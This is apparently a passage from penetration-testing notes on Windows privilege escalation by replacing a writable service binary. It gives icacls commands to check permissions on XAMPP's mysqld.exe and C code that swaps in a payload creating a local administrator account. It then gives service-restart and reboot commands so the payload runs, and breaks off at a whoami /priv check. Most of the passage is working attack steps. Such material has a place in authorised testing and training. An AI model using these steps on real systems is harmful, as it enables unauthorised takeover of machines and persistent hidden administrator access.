 
Focus on services installed by users and enumerate the permissions:

```powershell
icacls "C:\xampp\mysql\bin\mysqld.exe"

# F   Full access
# M   Modify access
# RX  Read and execute access
# R   Read-only access
# W   Write-only access
```

If we can modify the binary, we can replace it. So, create a binary and compile it:

```C
#include <stdlib.h>
int main ()
  {
    int i;
    i = system ("net user testuser somepassword /add");
    i = system ("net localgroup administrators testuser /add");
  }
```

> **Note**: Create a backup of the original binary service (`C:\xampp\mysql\bin\mysqld.exe`) before proceeding.


Now there are two way:

1. Restart the service:

    ```powershell
    # 1. with net
    net stop mysql
    net start mysql

    # 2. Restart-Service
    Restart-Service -Name "mysql"
    ```

2. If your user doesn't have sufficient permissions to stop the service our alternative is to reboot the machine. If the service’s Startup Type is set to `Auto`, it should restart on boot

    ```powershell
    Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'} 

    Name StartMode
    ---- ---------
    mysql Auto
    ```

    To reboot, the user needs `SeShutDownPrivilege`
    ```powershell
    whoami /priv

